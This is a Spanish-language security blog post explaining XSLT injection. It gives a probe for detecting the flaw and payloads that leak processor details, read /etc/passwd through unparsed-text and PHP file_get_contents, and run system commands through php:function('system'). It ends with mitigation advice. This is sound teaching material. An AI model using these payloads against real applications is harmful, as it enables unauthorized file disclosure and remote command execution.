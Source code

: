 ```yaml
---
date: 2025-10-22T21:34:05.000Z
layout: post
comments: true
title: "eXtensible Stylesheet Language Transformation Injection"
subtitle: 'XSLT'
description: >-
image: >-
  /images/xsltlogo.png
optimized_image: >-
  /images/xsltlogo.png
category: ciberseguridad
tags:
  - web
  - rce
  - owasp
  - php
  - xslt
author: Felipe Canales Cayuqueo
paginate: true
---
```


XSLT es un lenguaje para transformar documentos XML mediante plantillas (```<xsl:template>```) y expresiones como ```<xsl:for-each>```, ```<xsl:value-of>```, ```<xsl:sort>``` y ```<xsl:if>```, lo que permite construir salidas arbitrarias (por ejemplo HTML) a partir de datos XML. Las plantillas seleccionan nodos XML mediante rutas y pueden iterar, filtrar y ordenar los datos antes de imprimirlos, por lo que XSLT es útil para definir formatos reutilizables y enriquecidos a partir de XML.

La inyección XSLT ocurre cuando la entrada del usuario se incorpora sin saneamiento al propio documento XSLT; así, un atacante puede insertar elementos XSL maliciosos que el procesador ejecutará (por ejemplo, rutas adicionales, condiciones o inclusiones), provocando divulgación de datos o comportamientos no deseados. Para minimizar este riesgo, la entrada del usuario nunca debe concatenarse directamente en plantillas XSLT: hay que validarla, escapar o usar mecanismos seguros para pasar datos como parámetros en lugar de modificar la estructura XSLT.

### Identificación

Para poder evaluar si una aplicación es vulnerable, debemos ingresar el siguiente payload:

```
<
```

Como podemos ver, la aplicación web responde con un error del servidor. Si bien esto no confirma que exista una vulnerabilidad de inyección XSLT, podría indicar su presencia.

### Explotación

#### Divulgación de información

Podemos obtener información básica sobre el XSLT

```
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

#### Local File Inclusion

XSLT contiene una función ```unparsed-text``` que se puede utilizar para leer un archivo local.

```
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

Destacar que el payload anterior solo funciona en la versión 2.0 de XSLT. Por lo tanto, nuestra aplicación web de muestra no admite esta función y, en cambio, genera un error. Sin embargo, si la biblioteca XSLT está configurada para admitir funciones PHP, podemos llamar a la función PHP ```file_get_contents```.

```
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

#### Ejecución remota de comandos (RCE)

Si un procesador XSLT admite funciones PHP, podemos llamar a una función PHP que ejecuta un comando del sistema local para obtener RCE.

```
<xsl:value-of select="php:function('system','id')" />
```

### Recomendaciones

Para prevenir la inyección XSLT, es fundamental evitar insertar directamente datos proporcionados por el usuario en las plantillas XSL, y en caso de que sea necesario, aplicar una validación y desinfección exhaustiva de la entrada. También se recomienda codificar los caracteres HTML especiales (por ejemplo, reemplazar ```<``` y ```>``` por ```&lt;``` y ```&gt;```) antes de procesar la plantilla, para impedir la inserción de elementos XSL maliciosos. Como medidas adicionales de seguridad, conviene ejecutar el procesador XSLT con privilegios mínimos, deshabilitar funciones externas (como las de PHP o llamadas al sistema) y mantener la biblioteca XSLT actualizada, reduciendo así la posibilidad y el impacto de una posible explotación.

